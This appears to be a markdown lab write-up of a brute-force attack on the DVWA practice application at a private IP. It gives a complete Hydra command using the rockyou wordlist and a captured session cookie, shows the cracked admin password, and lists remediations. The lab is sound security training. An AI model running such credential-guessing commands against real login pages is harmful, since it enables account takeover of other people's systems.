


# Attack 1 — Brute Force

## What is it?
Brute force attacks try many username and password combinations automatically until the correct credentials are found. Attackers use wordlists containing millions of common passwords.

---

## Target
- **URL**: http://192.168.100.129/dvwa/vulnerabilities/brute/
- **Tool**: Hydra
- **Security Level**: Low

---

## Steps

### 1. Grab session cookie
DVWA requires a valid session to access the brute force page. The session cookie was extracted from the browser developer tools.

PHPSESSID: a08174d472a4a5c1b9b9edf9f39a0aa5
security: low

### 2. Run Hydra
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.100.129 http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie: PHPSESSID=a08174d472a4a5c1b9b9edf9f39a0aa5; security=low:F=Username and/or password incorrect"
```

---

## Result

[80][http-get-form] host: 192.168.100.129  login: admin  password: password

Password cracked successfully in under 2 minutes using rockyou.txt wordlist.

---

## Impact
- Full admin account takeover
- Access to all DVWA functionality
- In a real scenario this would mean complete application compromise

---

## Remediation
- Implement account lockout after failed attempts
- Use rate limiting on login endpoints
- Enforce strong password policies
- Enable multi-factor authentication (MFA)
- Use CAPTCHA on login forms

---

## Screenshots

### 1. Session cookie extracted


### 2. Hydra password found


---

## Next Attack
[Attack 2 — Command Injection](../02-Command-Injection/)
